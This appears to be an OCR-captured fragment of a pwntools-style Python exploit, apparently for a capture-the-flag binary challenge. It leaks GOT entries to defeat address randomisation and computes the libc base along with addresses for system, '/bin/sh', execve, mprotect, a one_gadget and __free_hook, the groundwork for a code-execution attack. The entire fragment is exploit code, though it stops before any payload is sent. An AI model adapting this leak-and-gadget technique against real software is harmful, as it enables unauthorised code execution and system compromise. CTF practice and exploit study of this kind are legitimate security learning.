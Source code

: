```python

    # Leak gets@got
    gets_got_offset = 0x3fc8
    gets_got = u64(leak(elf_start + gets_got_offset).ljust(8, b"\x00"))
    log.info("gets@GOT: 0x%x" % gets_got)

    # Leak puts@got
    puts_got_offset = 0x3fa8
    puts_got = u64(leak(elf_start + puts_got_offset).ljust(8, b"\x00"))
    log.info("puts@GOT: 0x%x" % puts_got)

    # Leak rand@got
    rand_got_offset = 0x3fd0
    rand_got = u64(leak(elf_start + rand_got_offset).ljust(8, b"\x00"))
    log.info("rand@GOT: 0x%x" % rand_got)

    # Calculate stuff
    libc_system_offset = 0x055410
    libc_puts_offset = 0x0875a0
    libc_printf_offset = 0x064e10
    libc_gets_offset = 0x086af0
    libc_write_offset = 0x111040
    libc_read_offset = 0x110fa0
    libc_binsh_offset = 0x1b75aa
    libc_execl_offset = 0xe64f0
    libc_execve_offset = 0xe6160
    libc_open_offset = 0x110cc0
    libc_ret_gadget = 0x0000000000025679
    libc_mprotect_offset = 0x11b970
    libc_base = puts_got - 0x0875a0
    log.info('libc Base: 0x%x' % libc_base)
    system_addr = libc_base + libc_system_offset
    log.info('system: 0x%x' % system_addr)
    puts_addr = libc_base + libc_puts_offset
    log.info('puts: 0x%x' % puts_addr)
    binsh_addr = libc_base + libc_binsh_offset
    log.info('/bin/sh: 0x%x' % binsh_addr)
    execl_addr = libc_base + libc_execl_offset
    log.info('execl: 0x%x' % execl_addr)
    execve_addr = libc_base + libc_execve_offset
    log.info('execve: 0x%x' % execve_addr)
    read_addr = libc_base + libc_read_offset
    log.info('read: 0x%x' % read_addr)
    open_addr = libc_base + libc_open_offset
    log.info('open: 0x%x' % open_addr)
    ret_addr = libc_base + libc_ret_gadget
    log.info('ret gadget: 0x%x' % ret_addr)
    mprotect_addr = libc_base + libc_mprotect_offset
    log.info('mprotect gadget: 0x%x' % mprotect_addr)

    # Calculate one gadget
    # 0xe6ce9 execve("/bin/sh", rsi, rdx)
    # constraints:
    # [rsi] == NULL || rsi == NULL
    # [rdx] == NULL || rdx == NULL
    one_gadget_offset = 0xe6ce9
    one_gadget = libc_base + one_gadget_offset
    log.info('One Gadget: 0x%x' % one_gadget)

    # Calculate the __free_hook address
    libc_free_hook_offset = 0x1eeb28
    free_hook_addr = libc_base + libc_free_hook_offset
    log.info("__free_hook: 0x%x" % free_hook_addr)
```